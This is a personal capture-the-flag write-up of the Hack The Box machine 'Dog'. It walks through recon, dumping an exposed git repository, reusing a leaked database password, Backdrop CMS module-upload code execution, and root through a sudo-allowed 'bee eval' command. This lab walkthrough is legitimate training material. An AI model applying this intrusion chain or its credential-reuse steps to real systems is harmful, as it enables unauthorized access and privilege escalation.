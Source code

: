 ```yaml
---
title: HTB Dog - Writeup
date: 2025-05-20 20:03:00 +0330
categories: [Writeup]
tags: []
description: My writeup of Dog from Hack The Box 

---
```


![](assets/img/dog.png)

## - **Recon & Enum**
Starting off by scanning for open ports.
```shell
$ nmap -sC -sV -oN dog_nmap --min-rate=100 10.10.11.58
```
```
Nmap scan report for 10.10.11.58
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Home | Dog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Right off the bat Nmap found the git repository, we can dump it with `git-dumper`
```shell
$ git-dumper http://10.10.11.58 dog_git
```
Searching in the dumped repo, there is a `settings.php` file which included the following line.
```
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```
I tested the password with user `dogBackDropSystem`, but no success. Lokking around, in the `about` page, we can see an email address `support@dog.htb`, so I checked the dumped repo and found another user.

```shell
$ grep -r @dog.htb
```
```
files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"
.git/logs/HEAD:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000   commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases
.git/logs/refs/heads/master:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000      commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases
```
And that was it, we logged in as `tiffany` with the password `BackDropJ2024DS2024`.
## - **Foothold**
From the `admin/reports/status` page, we learn the version of Backdrop CMS running `1.27.1`. We can create a module with payload inside and upload it.  
more info: [exploit-db](https://www.exploit-db.com/exploits/52021).  

```shell
$ ls titap/
titap.info  titap.php
$ tar -cf titap.tar titap
$ gzip titap.tar
```

![](assets/img/dog_titap.png)

After we have installed the module, we can call the payload via `/modules/titap/titap.php`

```
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@dog:/$ ls
ls
backdrop_tool  dev   lib    libx32      mnt   root  srv  usr
bin            etc   lib32  lost+found  opt   run   sys  var
boot           home  lib64  media       proc  sbin  tmp
www-data@dog:/$
```

## - **User**
```
www-data@dog:/$ cat /etc/passwd | grep sh$
cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
```
Tried the password we got earlier with both users and `johncusack` logged in. It couldn't be any easier! My beloved SSH, here I come!
```
johncusack@dog:~$ cat user.txt  
b759951e9**************c8a2e126a
```

## - **Root**

```
johncusack@dog:~$ sudo -l
[sudo] password for johncusack: 
Sorry, try again.
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

The `bee` binary has a command `eval` which allows us to run php code.

>The `eval` command only works inside the BackdropCMS root directory.
{: .prompt-info }

```
johncusack@dog:/var/www/html$ sudo /usr/local/bin/bee eval "system(bash)"

 ⚠ Warning: Use of undefined constant bash - assumed 'bash' (this will throw an Error in a future version of PHP)
in eval() (line 1 of /backdrop_tool/bee/commands/php.bee.inc(51) : eval()'d code).

root@dog:/var/www/html#
```

And here is the flag.

```
root@dog:~# cat root.txt 
b28fdc30b**************224a601bc 
```
![](assets/img/dog_congrats.png)
Done!
Thanks for reading!